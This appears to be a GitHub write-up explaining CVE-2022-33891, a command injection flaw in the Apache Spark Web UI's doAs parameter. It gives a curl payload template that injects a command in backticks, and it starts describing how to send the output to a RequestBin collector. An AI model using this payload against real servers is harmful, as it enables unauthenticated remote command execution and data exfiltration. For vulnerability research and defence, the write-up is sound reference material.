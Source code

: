 ### CVE-2022-33891

[Apache Spark](https://spark.apache.org) is an open-source, distributed processing system used for big data workloads and it utilizes in-memory caching, and optimized query execution for fast analytic queries.
Apache Spark also provides a suite of web user interfaces (UI) that you can use to monitor the status and resource consumption of your Spark cluster.

Past week, there was found a new vulnerability inside the Apache Spark Web UI component: a shell command injection vulnerability. This vulnerability affects the ```?doAs``` parameter, allowing an unauthenticated attacker to execute commands on the target system.
The command injection occurs because Spark checks the group membership of the user passed in the ```?doAs``` parameter by using a raw Linux command.

The payload is pretty simple, you need to specify a command to run between the '`' characters, using the ```doAs``` parameter.

```
curl -X "GET" http://<IP>:8080/?doAs=`<command_to_execute>`
```

The backtick is the start of an instruction to bash to evaluate what you type as a command. Everything you type between backticks (`) is evaluated  by the shell before the main command and the output of that execution is used by that command, just as if you'd type that output at that place in the command line.
So, the command between the backticks inside the URL will be firstly intepreted by our shell and then by the target shell.

To read the output of the command and to check if that command was executed on the vulnerable server, we will send a request to [RequestBin](https://requestbin.io).
[RequestBin](https://requestbin.io) gives you a URL that will collect requests made to it and let you inspect them in a human-friendly way.

You need just to create a subdomain by using the Create a RequestBin button:

<img src="../media/requestbin.png" width=600 height=300>
